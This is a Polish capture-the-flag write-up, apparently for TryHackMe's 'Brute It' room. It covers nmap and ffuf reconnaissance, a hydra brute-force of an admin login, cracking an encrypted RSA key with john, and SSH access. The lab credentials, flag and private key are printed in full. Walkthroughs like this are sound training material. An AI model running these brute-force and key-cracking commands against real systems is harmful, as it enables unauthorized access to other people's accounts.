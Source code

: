 # Brute It
IP=10.10.70.121

## Rekonesans
Przeprowadzamy wstępny skan za pomocą narzędzia nmap:

```
sudo nmap -sV -sC 10.10.70.121 
```

Otrzymujemy następujące wyniki:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-07-08 06:07 EDT
Nmap scan report for 10.10.70.121
Host is up (0.093s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
|   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
|_  256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.61 seconds
```

Zostały wykryte dwa porty: 22 (SSH) i 80 (HTTP). SSH jest w wersji OpenSSH 7.6p1. Wersja Apache to 2.4.29. Dystrybucja Linuxa to Ubuntu.

## Skanowanie

### Port 80
Rozpoczynamy od sprawdzenia portu 80. Jest to domyślna strona Apache2. Przechodzimy do enumeracji za pomocą narzędzia ffuf:

```
ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.70.121/FUZZ -c
```

![FFUF](img/FFUF.JPG)

Po przejściu na podstronę "admin" znajdujemy panel logowania:

![LoginPage](img/LoginPage.JPG)

W źródle strony znajdujemy informację o nazwie użytkownika:

![Username](img/Username.JPG)

Przeprowadzamy atak brute-force za pomocą narzędzia hydra:

```
hydra 10.10.70.121 http-post-form "/admin/:user=^USER^&pass=^PASS^:Username or password invalid" \
-l admin -P /usr/share/wordlists/rockyou.txt
```

![Hydra](img/Hydra.JPG)

Znamy już dane potrzebne do logowania:

```
admin:xavier
```

Logujemy się do systemu znajdując pierwszą flagę

![Web](img/Web.JPG)

```
THM{brut3_f0rce_is_e4sy}
```

Na stronie widzimy klucz prywatny RSA użytkownika john:

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,E32C44CDC29375458A02E94F94B280EA

JCPsentybdCSx8QMOcWKnIAsnIRETjZjz6ALJkX3nKSI4t40y8WfWfkBiDqvxLIm
UrFu3+/UCmXwceW6uJ7Z5CpqMFpUQN8oGUxcmOdPA88bpEBmUH/vD2K/Z+Kg0vY0
BvbTz3VEcpXJygto9WRg3M9XSVsmsxpaAEl4XBN8EmlKAkR+FLj21qbzPzN8Y7bK
HYQ0L43jIulNKOEq9jbI8O1c5YUwowtVlPBNSlzRMuEhceJ1bYDWyUQk3zpVLaXy
+Z3mZtMq5NkAjidlol1ZtwMxvwDy478DjxNQZ7eR/coQmq2jj3tBeKH9AXOZlDQw
UHfmEmBwXHNK82Tp/2eW/Sk8psLngEsvAVPLexeS5QArs+wGPZp1cpV1iSc3AnVB
VOxaB4uzzTXUjP2H8Z68a34B8tMdej0MLHC1KUcWqgyi/Mdq6l8HeolBMUbcFzqA
vbVm8+6DhZPvc4F00bzlDvW23b2pI4RraI8fnEXHty6rfkJuHNVR+N8ZdaYZBODd
/n0a0fTQ1N361KFGr5EF7LX4qKJz2cP2m7qxSPmtZAgzGavUR1JDvCXzyjbPecWR
y0cuCmp8BC+Pd4s3y3b6tqNuharJfZSZ6B0eN99926J5ne7G1BmyPvPj7wb5KuW1
yKGn32DL/Bn+a4oReWngHMLDo/4xmxeJrpmtovwmJOXo5o+UeEU3ywr+sUBJc3W8
oUOXNfQwjdNXMkgVspf8w7bGecucFdmI0sDiYGNk5uvmwUjukfVLT9JPMN8hOns7
onw+9H+FYFUbEeWOu7QpqGRTZYoKJrXSrzII3YFmxE9u3UHLOqqDUIsHjHccmnqx
zRDSfkBkA6ItIqx55+cE0f0sdofXtvzvCRWBa5GFaBtNJhF940Lx9xfbdwOEZzBD
wYZvFv3c1VePTT0wvWybvo0qJTfauB1yRGM1l7ocB2wiHgZBTxPVDjb4qfVT8FNP
f17Dz/BjRDUIKoMu7gTifpnB+iw449cW2y538U+OmOqJE5myq+U0IkY9yydgDB6u
uGrfkAYp6NDvPF71PgiAhcrzggGuDq2jizoeH1Oq9yvt4pn3Q8d8EvuCs32464l5
O+2w+T2AeiPl74+xzkhGa1EcPJavpjogio0E5VAEavh6Yea/riHOHeMiQdQlM+tN
C6YOrVDEUicDGZGVoRROZ2gDbjh6xEZexqKc9Dmt9JbJfYobBG702VC7EpxiHGeJ
mJZ/cDXFDhJ1lBnkF8qhmTQtziEoEyB3D8yiUvW8xRaZGlOQnZWikyKGtJRIrGZv
OcD6BKQSzYoo36vNPK4U7QAVLRyNDHyeYTo8LzNsx0aDbu1rUC+83DyJwUIxOCmd
6WPCj80p/mnnjcF42wwgOVtXduekQBXZ5KpwvmXjb+yoyPCgJbiVwwUtmgZcUN8B
zQ8oFwPXTszUYgNjg5RFgj/MBYTraL6VYDAepn4YowdaAlv3M8ICRKQ3GbQEV6ZC
miDKAMx3K3VJpsY4aV52au5x43do6e3xyTSR7E2bfsUblzj2b+mZXrmxst+XDU6u
x1a9TrlunTcJJZJWKrMTEL4LRWPwR0tsb25tOuUr6DP/Hr52MLaLg1yIGR81cR+W
-----END RSA PRIVATE KEY-----
```

Zapisujemy go do pliku i nadajemy mu uprawnienia:

![RSA](img/RSA.JPG)

Następnie zmieniamy format, aby był zrozumiany przez narzędzie John:

![SSH2JOHN](img/SSH2JOHN.JPG)

Łamiemy hash'a:

```
john --wordlist=/usr/share/wordlists/rockyou.txt id.rsa.hash
```

![JOHN](img/JOHN.JPG)

Znając nazwę użytkownika (john), klucz prywatny RSA (id_rsa) i złamane hasło (rockinroll) próbujemy zalogować się do systemu za pomocą SSH:

![Error](img/Error.JPG)

Otrzymaliśmy błąd ze względu na zbyt duże uprawnienia klucza. Musimy zmienić uprawnienia komendą:

```
chmod 400 id_rsa
```

Ponownie logujemy się do systemu za pomocą SSH:

![SSH](img/SSH.JPG)


